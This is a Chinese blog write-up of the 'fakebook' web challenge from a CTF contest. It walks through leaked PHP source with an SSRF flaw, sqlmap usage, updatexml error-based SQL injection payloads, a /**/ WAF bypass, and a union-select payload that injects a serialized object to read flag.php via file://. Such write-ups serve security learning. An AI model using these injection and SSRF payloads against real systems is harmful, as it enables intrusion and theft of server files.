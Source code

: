 <!--yml
category: 未分类
date: 2022-04-26 14:52:16
-->

# 解网鼎杯一道web题（fakebook）_诸神之眼的博客-CSDN博客_fakebook

> 来源：[https://blog.csdn.net/qq_42196196/article/details/81952174](https://blog.csdn.net/qq_42196196/article/details/81952174)

![](img/2d7d77f2f7b71c4e5300fcbca28b90a3.png)

## 扫描：

nikto扫描：
![](img/4980633314e03327b8ca635a5807f501.png)
发现隐藏的robots.txt，其中有源码泄漏（/user.php.bak），输入到地址栏，得到文件user.php.bak。然后用御剑扫描，发现flag.php。

> user.php.bak源码：
> 
> <?php
> 
> class UserInfo
> {
> 
>     public $name = "";
>     public $age = 0;
>     public $blog = "";
> 
>     public function __construct($name, $age, $blog)
>     {
>         $this->name = $name;
>         $this->age = (int)$age;
>         $this->blog = $blog;
>     }
> 
>     function get($url)
>     {
>         $ch = curl_init();                                   //初始化一个curl会话
> 
>         curl_setopt($ch, CURLOPT_URL, $url);                 //设置需要抓取的URL
>         curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);         //设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上
>         $output = curl_exec($ch);                            //运行cURL，请求网页
>         $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
>         if($httpCode == 404) {
>             return 404;
>         }
>         curl_close($ch);          //关闭一个curl会话，唯一的参数是curl_init()函数返回的句柄
> 
>         return $output;
>     }
> 
>     public function getBlogContents ()
>     {
>         return $this->get($this->blog);
>     }
> 
>     public function isValidBlog ()
>     {
>         $blog = $this->blog;
>         return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
>     }
> 
> }

 审计源码发现其中get()函数存在SSRF(服务端请求伪造)漏洞。

对注册页面和登陆页面进行post注入探测，发现注册页面中username一栏存在post注入。然后随意注册一个账户，登陆进去以后，发现/view.php?no=1,存在get注入。将no参数改为不存在的值，php报错，得到网站配置文件的后台物理路径/var/www/html/。
![](img/b05e302bdd04a9e243329d66d7c6dc89.png)

## 注入：

我选择了post注入，因为先发现了post，所以就用burpsuite截取了post数据包，保存为post.txt
(事后用sqlmap跑get注入点并没有跑出结果)

> post.txt数据：
> 
> POST /join.ok.php HTTP/1.1
> Host: http://f60c34e18065457cab2a8f72a615f74aeed1bc0d1cd84c6d.game.ichunqiu.com/
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> Accept-Language: zh,en-US;q=0.7,en;q=0.3
> Referer: http://f60c34e18065457cab2a8f72a615f74aeed1bc0d1cd84c6d.game.ichunqiu.com/join.php
> Cookie: UM_distinctid=1655535613c89-0225b46f53fa79-38694646-100200-1655535613e38; pgv_pvi=3838269440; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1534816179,1534831680,1534834500,1534848123; chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; ci_session=b6cdb3f35d0c299c39a2a581c0de505887626935; pgv_si=s4980557824; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1534848148; PHPSESSID=dcgbips79uln77iea8bol6u4d5
> Connection: close
> Upgrade-Insecure-Requests: 1
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 62
> 
> username=1&passwd=1&age=1&blog=https%3A%2F%2Fwww.csdn.net%2F

接着sqlmap跑包
#sqlmap -r /root/File/post.txt --dump -tables
![](img/8a7c22511b8e963b087aaace0099c2ec.png)发现数据库data列储存的是PHP反序列化。

## **fuzz测试：**

> 爆表名 /view.php?no=1 and updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#

![](img/7b962c29f32596a822d5e28c4e6cc644.png)

> 爆列名 /view.php?no=1 and updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#

![](img/7db54932de5301b24fb1590ed6ed09cd.png)

> 爆字段 /view.php?no=1 and updatexml(1,make_set(3,'~',(select data from users)),1)#

![](img/0ce6b58976b7469279ab133daed02472.png)

综合考虑：服务端请求伪造漏洞，在服务器上的flag.php文件，网站配置文件的物理路径(同时也是flag.php的路径)，PHP反序列化。

整理出思路：利用no参数进行注入，在反序列化中构造file文件协议，利用服务端请求伪造漏洞访问服务器上的flag.php文件。
构造注入:

```
/view.php?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

直接用 `union select` 会被WAF检测到，所以使用 `/**/` 来绕过，反序列化字符串对应数据库data列放在第四列（fuzz测试，爆列名），注入后bolg栏显示file:///var/www/html/flag.php，代表注入成功，审计页面源码，发现<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s3YjY1NzM3Zi04NzA4LTQ2ZmYtODhmOC0wMDY4YzY4NTlhMmN9IjsNCmV4aXQoMCk7DQo='>标签，点击链接，拿到flag。
![](img/36fb1a51f9ee84c4d37239603d5b0c93.png)